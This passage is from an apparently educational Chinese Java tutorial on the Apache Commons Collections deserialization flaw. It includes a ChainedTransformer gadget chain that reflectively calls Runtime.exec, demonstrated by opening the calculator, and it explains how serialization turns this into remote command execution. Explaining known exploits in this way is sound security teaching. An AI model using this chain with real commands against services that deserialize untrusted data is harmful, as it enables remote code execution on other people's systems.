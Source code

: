 至此，我们知道可以利用InvokerTransformer来调用外部命令了，那是不是只需要把一个我们自定义的InvokerTransformer序列化成字符串，然后再反序列化，接口实现远程命令执行：

![img](https://www.hollischuang.com/wp-content/uploads/2020/07/15944505042521.jpg)

先将transformer对象序列化到文件中，再从文件中读取出来，并且执行其transform方法，就实现了攻击。

#### [你以为这就完了？](https://hollischuang.github.io/toBeTopJavaer/#/basics/java-basic/bug-in-apache-commons-collections?id=你以为这就完了？)

但是，如果事情只有这么简单的话，那这个漏洞应该早就被发现了。想要真的实现攻击，那么还有几件事要做。

因为，`newTransformer.transform(Runtime.getRuntime());`这样的代码，不会有人真的在代码中写的。

如果没有了这行代码，还能实现执行外部命令么？

这就要利用到Commons Collections中提供了另一个工具那就是ChainedTransformer，这个类是Transformer的实现类。

**ChainedTransformer类提供了一个transform方法，他的功能遍历他的iTransformers数组，然后依次调用其transform方法，并且每次都返回一个对象，并且这个对象可以作为下一次调用的参数。**

![img](https://www.hollischuang.com/wp-content/uploads/2020/07/15944497629664.jpg)

那么，我们可以利用这个特性，来自己实现和`transformer.transform(Runtime.getRuntime());`同样的功能：

```markup
 Transformer[] transformers = new Transformer[] {
    //通过内置的ConstantTransformer来获取Runtime类
    new ConstantTransformer(Runtime.class),
    //反射调用getMethod方法，然后getMethod方法再反射调用getRuntime方法，返回Runtime.getRuntime()方法
    new InvokerTransformer("getMethod",
        new Class[] {String.class, Class[].class },
        new Object[] {"getRuntime", new Class[0] }),
    //反射调用invoke方法，然后反射执行Runtime.getRuntime()方法，返回Runtime实例化对象
    new InvokerTransformer("invoke",
        new Class[] {Object.class, Object[].class },
        new Object[] {null, new Object[0] }),
    //反射调用exec方法
    new InvokerTransformer("exec",
        new Class[] {String.class },
        new Object[] {"open /Applications/Calculator.app"})
};

Transformer transformerChain = new ChainedTransformer(transformers);复制ErrorOK!
```

在拿到一个transformerChain之后，直接调用他的transform方法，传入任何参数都可以，执行之后，也可以实现打开本地计算器程序的功能：

![img](https://www.hollischuang.com/wp-content/uploads/2020/07/15944539116926.jpg)

那么，结合序列化，现在的攻击更加进了一步，不再需要传入`newTransformer.transform(Runtime.getRuntime());`这样的代码了，只要代码中有 `transformer.transform()`方法的调用即可，无论里面是什么参数：

![img](https://www.hollischuang.com/wp-content/uploads/2020/07/15944538564178.jpg)

#### [攻击者不会满足于此](https://hollischuang.github.io/toBeTopJavaer/#/basics/java-basic/bug-in-apache-commons-collections?id=攻击者不会满足于此)
